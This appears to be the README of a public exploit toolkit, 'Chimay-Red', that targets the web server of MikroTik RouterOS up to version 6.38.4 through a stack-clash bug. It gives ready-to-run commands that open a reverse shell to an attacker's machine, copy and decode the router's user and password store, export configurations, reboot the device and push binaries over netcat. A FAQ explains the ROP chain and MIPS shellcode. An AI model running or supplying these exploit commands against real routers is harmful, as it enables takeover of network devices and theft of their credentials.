 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the [PDF](docs/ChimayRed.pdf) for more info (not updated)  

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# Working exploits  
As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```  

## StackClash_x86  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### For a reverse shell:  
In a shell:  
```
$ nc -l -p 1234 
```  
In another shell:
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### To extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ curl -s http://192.168.8.1/winbox/index | ./tools/extract_user.py -
```

### Export configs  
You can execute command in Mikrotik console with `/nova/bin/info`.  
Eg: `/nova/bin/info "/system reboot"` will reboot the system.  
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/nova/bin/info "/export" > /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ curl -s http://192.168.8.1/winbox/index
```

## StackClash_mips  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.   

### LCD  
Funny command  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)  

### Super Mario sound
Do not do it! ;-P
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "while [ true ]; do /nova/bin/info ':beep frequency=660 length=100ms;:delay 150ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=510 length=100ms;:delay 100ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=770 length=100ms;:delay 550ms;:beep frequency=380 length=100ms;:delay 575ms;:beep frequency=510 length=100ms;:delay 450ms;:beep frequency=380 length=100ms;:delay 400ms;:beep frequency=320 length=100ms;:delay 500ms;:beep frequency=440 length=100ms;:delay 300ms;:beep frequency=480 length=80ms;:delay 330ms;:beep frequency=450 length=100ms;:delay 150ms;:beep frequency=430 length=100ms;:delay 300ms;:beep frequency=380 length=100ms;:delay 200ms;:beep frequency=660 length=80ms;:delay 200ms;:beep frequency=760 length=50ms;:delay 150ms;:beep frequency=860 length=100ms;:delay 300ms;:beep frequency=700 length=80ms;:delay 150ms;:beep frequency=760 length=50ms;:delay 350ms;:beep frequency=660 length=80ms;:delay 300ms;:beep frequency=520 length=80ms;:delay 150ms;:beep frequency=580 length=80ms;:delay 150ms;:beep frequency=480 length=80ms;:delay 500ms;'; done"
```

### Upload binaries
To upload `busybox-mips` in `/ram/busybox`  
In a shell:
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips  
$ { echo "echo Uploading..."; hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /ram/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g"; } | nc -l -q 0 -p 1234
```  
In another shell (note that this is the reverse shell command):
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f"
```
and wait until the connection automatically close.  
(Once the file is uploaded, run again reverse shell (this time only listening with `nc -l -p 1234`) and you will find busybox inside `/ram/`)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

##### x86  

The ROP chain construct "system" string and "your_shell_cmd" string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to "dlsym" function (present in the PLT) passing as argument the address of just created string "system" to find the address of "system" function.   
Now we can return to the address of system passing as argument the address of the just created string "your_shell_cmd".  

##### mips
DEP is disabled on this version of www, so I can execute the stack.  
But I cannot use system function because "/bin/sh" is not present on the file system, so I used execve directly.  
A small ROP (3 gadgets) find the address of a location on the stack (where I put the shell code), and then jump to that address.  
In the shell code I populate an array of 4 pointers with the address of the strings "/bin/bash", "-c", "your_shell_cmd" using the leaked address of the stack (the last pointer is left NULL).  
Then I populate a0, a1, a2 with rispectively: address of "/bin/bash", address of the array populated at the preceeding step and the address of the NULL entry of the array.  
At this point I can launch the syscall 4011 (execve) to execute my bash command.  
